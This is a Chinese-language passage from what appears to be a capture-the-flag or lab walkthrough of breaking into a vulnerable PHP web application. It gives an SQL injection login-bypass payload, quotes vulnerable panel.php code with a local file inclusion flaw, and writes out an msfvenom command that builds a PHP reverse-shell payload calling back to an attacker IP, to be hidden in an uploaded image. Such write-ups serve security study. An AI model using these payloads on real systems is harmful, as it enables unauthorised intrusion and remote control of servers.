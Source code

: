 > 
用xshell登录，得到root权限<br/> 之前mysql登不上检测后发现mysql状态为：`mysql stop/waiting`，推测mysql被之前的高线程目录暴破、扫描导致故障


#### 获得非root权限

> 



> 



```
$uname=str_replace('\'','',urldecode($_POST['un']));
$pass=str_replace('\'','',urldecode($_POST['ps']));

```

> 
str_replace的作用是将字符串`\'` 替换为空，因此构造SQL注入登录payload时，必须含有`\'`字符串，否则会报错，urldecode的作用是将输入解码，所以可以用Payload：用户名密码均为`' or 1=1 -- \'`，成功登入web页面


> 
点击`add user`进入添加账号界面，这是一个图片上传漏洞点，利用图片上传和文件包含获得shell<br/> 查看之前利用文件包含漏洞获得的panel.php源码，发现panel.php存在本地文件包含漏洞


```
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}

```

> 
用msf制作一个php马用来反弹shell：`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.23.128 lport=1234 -f raw &gt; shell.php`<br/> 把得到的php文件附加在一张图片的最后制作一张图片马，然后将图片马上传
